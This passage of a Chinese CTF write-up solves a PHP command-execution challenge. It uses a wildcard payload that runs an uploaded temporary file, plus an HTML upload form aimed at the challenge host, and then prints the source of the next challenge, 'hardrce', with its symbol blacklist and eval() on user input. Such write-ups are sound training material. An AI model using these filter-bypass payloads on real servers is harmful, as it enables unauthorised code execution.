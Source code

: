 这题因为把@、[]什么的符号都过滤了，只剩一个p，匹配就不用那么麻烦了

```
?><?=`.+/??p/p?p??????`;?>
```

然后在文件上传这里卡了挺久orz，后来才发现写一个html页面就行了

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>临时文件上传</title>
</head>
<body>
<form action="http://9641c16c-5cea-4f08-b8e5-c8e8ffafc904.dynamic.szu.moe/?c=?><?=`.+/??p/p?p??????`;" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

成功得到flag

### [SWPUCTF 2021 新生赛]hardrce

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
```
